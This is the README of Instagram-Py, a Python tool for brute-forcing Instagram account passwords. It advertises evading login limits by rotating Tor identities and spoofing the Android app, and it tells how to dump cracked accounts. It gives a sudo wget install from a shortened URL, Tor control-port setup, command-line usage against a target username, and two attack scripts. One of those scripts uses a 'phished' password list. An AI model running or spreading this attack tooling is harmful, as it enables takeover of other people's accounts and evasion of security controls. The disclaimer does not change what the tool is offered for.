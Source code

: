 .. image:: https://raw.githubusercontent.com/antony-jr/instagram-py/master/.img/poster.png



.. raw:: html
 
 <blockquote>:briefcase: The Official Instagram-Py repo. A professional tool to :8ball: brute force instagram :camera_flash: accounts with less resource :gift: as possible , Written in Python :snake: and made with :heart: -- Antony Jr.</blockquote>
    
 
 <h1 align="center" > Instagram-Py </h1>

 <p align=center>
 <a href="https://travis-ci.org/antony-jr/instagram-py">
 <img src="https://travis-ci.org/antony-jr/instagram-py.svg?branch=master" / >
 </a>

 <a href="https://github.com/antony-jr/instagram-py/issues">
 <img src="https://img.shields.io/github/issues/antony-jr/instagram-py.svg?style=flat-square" / >
 </a>
 
 <a href="https://github.com/antony-jr/instagram-py/network">
 <img src="https://img.shields.io/github/forks/antony-jr/instagram-py.svg?style=flat-square" / >
 </a>
 
 <a href="https://github.com/antony-jr/instagram-py/stargazers">
 <img src="https://img.shields.io/github/stars/antony-jr/instagram-py.svg?style=flat-square" / >
 </a>
 
 <a href="https://github.com/antony-jr/instagram-py/blob/master/LICENSE">
 <img src="https://img.shields.io/github/license/antony-jr/instagram-py.svg?style=flat-square" / >
 </a>
 
 <a class="badge-align" href="https://www.codacy.com/app/antony-jr/instagram-py?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=antony-jr/instagram-py&amp;utm_campaign=Badge_Grade"><img src="https://api.codacy.com/project/badge/Grade/352d5096b26e46faaa6b7434ad5afed6"/></a>
 
 </p>

  
  
| This project was started as a **POC** and then evolved into something. I first started this project when a lot of people
| started asking about brute forcing instagram and so I started working on a **Proof-Of-Concept** for brute forcing instagram
| without any password (try) limiting. Another reason to start working on this project was that there was no good tool to do
| this job , Yep! even now if you search through github you cannot find a tool which is good as instagram-py. Since a few people
| liked this tool , I decided to give it a **LTS**. Still there exists some old versions of instagram-py all-over github but
| **this is the official repo**. You can also use **different versions** of **instagram-py** through **pip**. 


|
| **Important Note**: You need to understand that **brute force** attacks are not always successful ( or mostly unsuccessful )
| if you use a generic wordlist that is not related to the target and so the attack will be useless,Make sure you use your tries
| carefully. **Please see that I am not a paid hacker and doing so is also illegal** and so please don't contact in the hope to
| get some help. Since I can't help you because I am not that really **skilled** in this stuff myself. 


|
| **Disclaimer**: This tool was created only for a small experiment and to study how brute force attacks work. You are free to
| use this tool with respect to the **MIT License** and as the license states the author has nothing to do with the any
| damage caused by this tool , The users are the only one who is responsible ( But I hope you won't do anything serious ).

.. raw:: html

 <br>
 <p align=center>
 <table>
 <tr>
 <th>DOWNLOAD</th>
 <th>INSTALL</th>
 </tr>
 <tr>
 <td>
 <a href="https://github.com/antony-jr/instagram-py/releases/download/continuous/Instagram-Py-continuous-x86_64.AppImage">
 <img src="https://img.shields.io/badge/LINUX_DOWNLOAD-InSTAGRAM--PY%20PORTABLE%20x86__64-brightgreen.svg?style=for-the-badge" />
 </a>
 </td>
 <td>
 <pre>
 $ chmod +x Instagram-Py-continuous-x86_64.AppImage;
 $ ./Instagram-Py-continuous-x86_64.AppImage # Just Use!
 </pre>
 </td>
 </tr>
 </table>
 <br>
 <img src="https://raw.githubusercontent.com/antony-jr/instagram-py/master/.img/preview.gif" / >
 </p>



------
 How?
------

| We use , **tor** to change our ip once blocked for many tries and continue attack.
| Since the official api is not a hacker wants, So we use the **InstagramAPK signature** to stay **anonymous!**
| And we also **save** the **progress** so that even in network interruption we can avoid breaking the computer!


-------
 What?
-------

| **Instagram-Py** is a slick python script to perform  **brute force** attack against **Instagram** ,   
| this script can **bypass** login limiting on wrong passwords ,  so basically it can test **infinite number of passwords**.
| Instagram-Py is **proved** and can test **over 6M** passwords on a single instagram account with **less resource** as possible
| This script mimics the activities of the official **instagram android app** and sends request over **tor** so you are secure ,
| but if your **tor** installation is **misconfigured** then the blame is on you.


------------
 Features
------------

* Ultra Portable

  As of Instagram-Py v2.0.6 , Instagram-Py is also distributed in **AppImages** , If you use
  Instagram-Py bundled in a AppImage , **You do not need to install anything , even tor.**
  Just **download** , **mark it executable** and **enjoy**! 
  Now Instagram-Py is the only (*The best of my knowledge*) hacking tool which is ultra portable that you
  can carry in a thumb drive. ( And use it in **any Linux Distro without installing anything**).
  know more in the installation section.

* Instagram-Py Scripting

  Craft your own python script which will embed into Instagram-Py for Maximum Customization of your
  brute force attack , example: What if you want a message sent to your phone when an account is hacked?

* Resumes Attacks when the same wordlist is used on the same Username
* Dumps successfully cracked accounts.
* Maximum Customization! ( This includes multiple attack vectors! )
* Fast and Clean Code , no ugly selenum drivers! ( Pure Requests )
* Elegant Tor Identity Change with Stem ( Tor's Official Library for Python )


**Depends on**: python3 , tor ,  requests , requests[socks] , stem (*Don't need anything if you use Instagram-Py Portable*)

==============
 Installation
==============

------------------------------------------------------------
Get Instagram-Py with Zero Setup ( Instagram-Py Portable )
------------------------------------------------------------


Just **execute** this **single command** and you will have everything to start using
**Instagram-Py** right-away!
**This Method is only possible for Linux Distro's with 64Bit Architecture** (*Any Linux Distro which is 64 Bit*).
**If you use this method...**

* You **don't** need to install anything in your **linux distro**.
* You **don't** even need **python** and **tor server** installed.
* You **don't** need any type of **configuration**. (*It Just Works!*)


::

 $ sudo wget -O /usr/bin/instagram-py https://git.io/vxKaq; sudo chmod +x /usr/bin/instagram-py
 $ instagram-py # Installed , Easy right ?



**Caution**: Please don't mix up this installation and pip installation as it may give unexpected
output.

You can also download **instagram-py** directly from the release page and save it in a thumb drive
to use it later, Cool right ?


---------------------------------
 Upgrading Instagram-Py with pip
---------------------------------

::

 $ sudo pip3 install instagram-py --upgrade


-------------------------------
 using pip to get Instagram-py
-------------------------------

**Make sure you have got the latest version of pip(>= 9.0 and python(>= 3.6)**

::

 $ sudo easy_install3 -U pip # you have to install python3-setuptools , update pip
 $ sudo pip3 install requests --upgrade
 $ sudo pip3 install requests[socks]
 $ sudo pip3 install stem
 $ sudo pip3 install instagram-py
 $ instagram-py # installed successfully
 $ # Configuration is Super Important so Lets Create One
 $ instagram-py --create-configuration # follow the steps... 

--------------------------------
    Configuring Instagram-Py
--------------------------------

**As of v2.0.0 Configuration is Simply done by Passing an Argument to Instagram-Py**

::

 $ instagram-py --create-configuration
 $      # OR
 $ instagram-py -cc



**Or if you just want the default settings without the annoying questions then**

::

 $ instagram-py --create-configuration --default-configuration
 $      # OR
 $ instagram-py -cc -dc



--------------------------------------------------
    Configuring Tor server to open control port
--------------------------------------------------

open your **tor configuration** file usually located at **/etc/tor/torrc**


::
 
 $ sudo vim /etc/tor/torrc # open it with your text editor
 

**search** for the file for this **specific section**

::

 ## The port on which Tor will listen for local connections from Tor
 ## controller applications, as documented in control-spec.txt.
 #ControlPort 9051
 
**uncomment** 'ControlPort' by deleting the **#** before 'ControlPort' , **now save the file and restart your tor server**

**now you are ready to crack any instagram account , make sure your tor configuration matched ~/instapy-config.json** 

=============
    Usage
=============

**Finally** , now you can use instagram-py!

**Instagram-Py Scripting lets you run Custom Python Scripts Inside Instagram-Py!**

**Never Run Instagram-Py with Multiple Instance! , Use Instagram-Py Scripting Instead!**


::

 $ instagram-py -u your_account_username -pl path_to_password_list


**Note**: Without the **-c** optional argument , instagram-py **will not continue the attack**

::

 usage: instagram-py [-h] [--username USERNAME] [--password-list PASSWORD_LIST]
                     [--script SCRIPT] [--inspect-username INSPECT_USERNAME]
                     [--create-configuration] [--default-configuration]
                     [--countinue] [--verbose]
 
 optional arguments:
   -h, --help            show this help message and exit
   --username USERNAME, -u USERNAME
                         username for Instagram account
   --password-list PASSWORD_LIST, -pl PASSWORD_LIST
                         password list file to try with the given username.
   --script SCRIPT, -s SCRIPT
                         Instagram-Py Attack Script.
   --inspect-username INSPECT_USERNAME, -i INSPECT_USERNAME
                         Username to inspect in the instagram-py dump.
   --create-configuration, -cc
                         Create a Configuration file for Instagram-Py with
                         ease.
   --default-configuration, -dc
                         noconfirm for Instagram-Py Configuration Creator!
   --continue-attack, -c       Continue the previous attack if found.
   --verbose, -v         Activate Verbose mode. ( Verbose level )

 example: instagram-py -c -vvv -u instatestgod__ -pl rockyou.txt

 Report bug, suggestions and new features at https://github.com/antony-jr/instagram-py



========================
 Instagram-Py Scripting
========================

Instagram-Py now lets you run your custom scripts inside of it for maximum customization of your attacks.
This Scripts are simple Python Scripts ( You Can just do anything that is possible with python )

**Witness the power of Instagram-Py Scripting**

::

 #!/usr/bin/instagram-py -s
 # Only Supports Python 3

 import os

 def hacked_an_account(username , password):
    # Use Twilio API to Make a Message to our phone MayBe?
    print("Account Cracked!")
    return True


 print("Initiating Multi Username Attack Script...")

 global_callback = hacked_an_account
 global_password_list = "{}/.exploits/facebook-phished.txt".format(os.path.expanduser('~'))

 usernames = [ # Reserved Variable
   {
   "id" : "instatestgod__",
   "password_list" : "/home/antonyjr/Developer/.exploits/rockyou.txt" , # full path
   "continue" : True, # Optional
   "verbose" : 0 # Optional
    },
   # If you want to simultaniously attack the same account with different wordlist
   # Apparently Saving does not work here if two wordlist are used on a single user!
   # could be later fixed anyways...
   {
   "id" : "instatestgod__",
   # global password list will cover us if password list is not mentioned!
   "continue" : False, # Optional
   "verbose" : 3 # Optional
   }
   # ,
   # {
   # "id" : "even_more_users",
   # "password_list" : "different_passwords.lst",
   # }
 ]



**You Can Always View the Cracked Passwords Using this command!**

::

 $ instagram-py -i instatestgod__
 $ # Displays record if it is cracked in the past!

===========================
 Using Instagram-Py as API
===========================

**Instagram-Py supports to be used as a module as of v1.3.2 , so you don't want to reproduce my code. Just use it!**

For some reason you wish not to use my software then you can use my software as a module and embed into your own
software , anyway its native so its just gonna run the same as the official command-line tool unless you do something crazy.

**Follow the same installation method mentioned above to install Instagram-Py API.**

This is a simple script to conduct a bructe force attack using instagram-py as a API.

::

 #!/usr/bin/env python3
 '''
   This is the same thing that is in the __init__ file of the command-line
   tool.
 '''
 from InstagramPy.InstagramPyCLI import InstagramPyCLI
 from InstagramPy.InstagramPySession import InstagramPySession , DEFAULT_PATH
 from InstagramPy.InstagramPyInstance import InstagramPyInstance
 from datetime import datetime
 
 username = "TARGET ACCOUNT USERNAME"
 password = "PASSWORD LIST PATH"

 appInfo = {
    "version"     : "0.0.1",
    "name"        : "Instagram-Py Clone",
    "description" : "Some Module to crack instagram!",
    "author"      : "YourName",
    "company"     : "YourCompany",
    "year"        : "2017",
    "example"     : ""
 }

 cli = InstagramPyCLI(appinfo = appInfo , started = datetime.now() , verbose_level = 3)
 
 '''
 # USE THIS IF YOU WANT
 cli.PrintHeader()
 cli.PrintDatetime()
 '''
 session = InstagramPySession(username , password , DEFAULT_PATH , DEFAULT_PATH , cli)
 session.ReadSaveFile(True) # True to countinue attack if found save file.
 '''
 # USE THIS IF YOU WANT
 cli.PrintMagicCookie(session.magic_cookie)
 '''

 '''
  Defining @param cli = None will make Instagram-Py run silently so you
  can you use your own interface if you like.
  or if you want to use the official interface then declare like this

  instagrampy = InstagramPyInstance(cli = cli , session = session)

 '''

 instagrampy = InstagramPyInstance(cli = None ,session = session)
 while not instagrampy.PasswordFound():
        print('Trying... '+session.CurrentPassword())
        instagrampy.TryPassword()

 if instagrampy.PasswordFound():
        print('Password Found: '+session.CurrentPassword())

 exit(0) 
 


=========
Support
=========

If you think that this project is **cool** then you can give it a :star: or :fork_and_knife: it if you want to improve it with me. I really :heart: stars though!   

.. raw:: html

 <p align="center">
     <a href="https://liberapay.com/antonyjr/donate">
        <img src="https://liberapay.com/assets/widgets/donate.svg">
     </a>
 </p>


If you want to do something that stands out then you can click the **donate** button at the top to make a monthly donation , So   
I will make sure that I stay healthy and keep on to do my work. :briefcase: Supporting me means supporting all of my projects , So   
you are like **Tony Stark** :heart: who backs **Spider-Man**! Thank you for your extra care! :dog:   

You can also tweet about me on twitter , get connected with me here -> https://twitter.com/antonyjr0

Thank You! :smiley_cat:



=============
   License
=============

The MIT License,

Copyright (C) 2018 The Future Shell , Antony Jr.
